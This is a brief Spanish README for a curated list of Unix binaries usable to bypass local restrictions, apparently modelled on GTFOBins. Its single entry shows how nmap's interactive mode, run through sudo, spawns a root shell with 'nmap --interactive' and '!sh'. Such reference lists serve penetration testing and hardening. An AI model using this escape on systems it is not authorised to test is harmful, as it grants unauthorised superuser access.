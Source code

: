 # LIST-BINS
Es una lista curada de binarios Unix que pueden utilizarse para saltarse las restricciones de seguridad locales en sistemas mal configurados.

## NMAP
Si al binario se le permite ejecutarse como superusuario mediante sudo, no se le retiran los privilegios elevados y puede utilizarse para acceder al sistema de archivos, escalar o mantener accesos privilegiados.
### SUDO
El modo interactivo, disponible en las versiones 2.02 a 5.21, puede utilizarse para ejecutar comandos de shell.
```bat
usaurio@locahost: nmap --interactive
nmap> !sh
```
